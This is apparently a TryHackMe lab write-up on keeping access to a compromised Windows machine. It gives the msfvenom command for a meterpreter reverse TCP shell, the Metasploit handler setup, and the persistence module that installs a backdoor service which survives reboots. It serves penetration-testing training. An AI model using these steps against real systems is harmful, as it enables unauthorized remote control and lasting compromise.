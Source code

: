 # Maintaining Access

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.\
There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.\
This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

### Generating a Payload w/ msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe 
#this will generate a basic windows meterpreter reverse tcp shell
```

\
2.) Transfer the payload from your attacker machine to the target machine.\
3.) `use exploit/multi/handler` - this will create a listener on the port that you set it on.\
4.) Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`\
5.) After setting your THM IP address as your "LHOST", start the listener with `run`\
6.)  Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that\
7.) Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

### Run the Persistence Module -

1.) `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want\
2.) `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the `sessions` command in metasploit to list the active sessions)\


<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

\
If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.\


<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

\
Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.\
There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.\
